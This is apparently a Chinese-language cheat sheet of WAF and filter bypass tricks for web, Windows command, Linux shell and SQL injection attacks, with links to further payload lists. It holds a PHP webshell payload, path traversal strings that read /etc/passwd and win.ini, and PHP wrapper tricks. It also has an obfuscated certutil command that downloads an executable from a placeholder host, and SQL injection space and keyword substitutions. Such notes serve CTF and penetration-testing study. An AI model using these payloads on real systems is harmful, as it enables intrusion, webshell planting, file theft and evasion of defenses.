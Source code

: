 # Web bypass

- [Bypass Linux Shell Restrictions](#linux-shell-bypass)
- 空格绕过 `a=system ('cat /flag');`
- 大小写绕过
- %0a 绕过
- unicode 绕过, `t => \u0074`
- ~ 反码绕过
- [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
- splstack 绕过匹配 O 开头的序列化数据； [2023 安洵杯 4 号的罗纳尔多](https://mp.weixin.qq.com/s/azbY19cBgs3MgVdo7i-OhQ)
- \_\_halt_compiler();来结束 php 代码执行流程 同上链接
- [详细|waf 绕过学习](https://mp.weixin.qq.com/s/OeZsKohqe87-ieIuW7L9tA)

[实战绕过某 WAF+拿 shell 组合拳](https://mp.weixin.qq.com/s/Q57dOjq279kqOFtSA1mV8Q)
[webshell 检测算法实践](https://mp.weixin.qq.com/s/M4umpduFCI50zOO-5080cw)

| bypass        | payload                                                |     |
| ------------- | ------------------------------------------------------ | --- |
| <?            | `<script language="php">@eval($\_POST['1']);</script>` |     |
| %2F 代替/     | ?filename=..%2F..%2F..%2F..%2Fetc%2Fpasswd             |     |
| 二次编码(%25) | ?filename=..%252F..%252F..%252F..%252Fetc%2Fpasswd     |
| 加入+         | ?filename=.+./.+./bin/redacted.dll                     |
| %00           | ?filename=.%00./file.php <br>/etc/passwd%00.jpg        |
| \ |  ?filename=..%5c..%5c/windows/win.ini


## bypass filter_var($url, FILTER_VALIDATE_URL)

`?url=http://`

## bypass file_get_contents($text,'r')==="welcome to the zjctf"

`?text=data://test/plain,welcome&file=php://filter/resource=useless.php`

# Cmd bypass

```sh
c""""e""""r""""t""""u""""t""""i""""l.exe -urlcache -split -f http://ip/6666.exe 6666.exe

copy /b 1.jpg+2.jpg 3 /y

```

# Linux shell bypass

[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)

# Sql bypass

- https://github.com/Xyntax/waf-bypass/blob/master/payload/sql.txt
- https://lexsd6.github.io/2021/01/31/%E5%85%B3%E4%BA%8Esql%E6%B3%A8%E5%85%A5bypass%E6%80%BB%E7%BB%93/#%E6%96%B9%E6%B3%95%E6%9B%BF%E6%8D%A2%E7%BB%95%E8%BF%87
- [sql 注入 bypass waf 工具（1 月 18 日更新）](https://mp.weixin.qq.com/s/qritLmRwP-Q5OLskxNWSVw)
- [Sql 注入过安全狗](https://mp.weixin.qq.com/s/Ighou2aYORZ7rGvJfpeeHg)

| bypass |             |                                                                                                                                            |
| ------ | ----------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| 大小写 |             |                                                                                                                                            |
| =      | like/regexp | <> 等价于 !=                                                                                                                               |
| 空格   | /\*\*/ 或 + | php 可用 %09、%0A、 %0B、 %0C、 %0D、%A0、%20 <br>and/or 后面可以跟上偶数个!、~可以替代空格 <br>and/or 前的空格可用省略. <br>'后空格可省略 |
|        |             |                                                                                                                                            |
